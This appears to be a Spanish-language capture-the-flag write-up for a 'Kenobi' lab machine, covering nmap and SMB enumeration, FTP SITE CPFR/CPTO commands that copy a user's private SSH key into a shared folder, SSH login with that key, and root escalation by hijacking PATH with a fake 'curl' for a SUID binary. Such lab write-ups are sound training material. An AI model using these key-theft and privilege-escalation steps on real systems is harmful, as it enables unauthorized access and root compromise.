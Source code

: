 
# NMAP

![alt text](image.png)

# SMB
Listamos directorios compartidos
![alt text](image-3.png)

Entramos en el usuario y descargamos el fichero ``log.txt``
![alt text](image-4.png)

# FTP
![alt text](image-1.png)

![alt text](image-2.png)

Searchsploit para buscar exploits en una version de un software
![alt text](image-5.png)


Vimos que la carpeta ``/var`` estaba compartida. Movemos la clave privada a la carpeta.

    SITE CPFR /home/kenobi/.ssh/id_rsa

    SITE CPTO /var/tmp/id_rsa

![alt text](image-6.png)

Montamos la carpeta en nuestro equipo
![alt text](image-7.png)

Cambiamos los permisos del ``id_rsa``

    sudo chmod 600 id_rsa

# SSH

Entramos en ssh con la clave privada
![alt text](image-9.png)

Buscamos carpetas con permisos
![alt text](image-8.png)

Vemos los permisos de la ruta

    ls -la /usr/bin/menu

Podemos ejecutarlo con

    /usr/bin/menu

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

    kenobi@kenobi:/tmp$ echo /bin/sh > curl
    kenobi@kenobi:/tmp$ chmod 777 curl 
    kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH

    /usr/bin/menu   ->  op1

![alt text](image-10.png)

